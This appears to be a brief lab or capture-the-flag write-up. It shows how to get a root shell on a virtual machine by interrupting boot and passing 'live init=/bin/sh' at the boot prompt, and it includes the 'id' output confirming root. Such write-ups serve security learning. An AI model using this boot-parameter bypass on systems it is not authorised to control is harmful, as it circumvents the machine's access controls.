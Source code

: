 Startup script exploit:

At the Vm's Startup we decide to change how to boot the VM

Zhen the vm start  hit key :
    
    ctr+alt+f1
    boot: live init=/bin/sh

doing so we say our startup script is /bin/sh so it will open us a shell 

    #id
    uid=0(root) gid=0(root) groups=0(root)
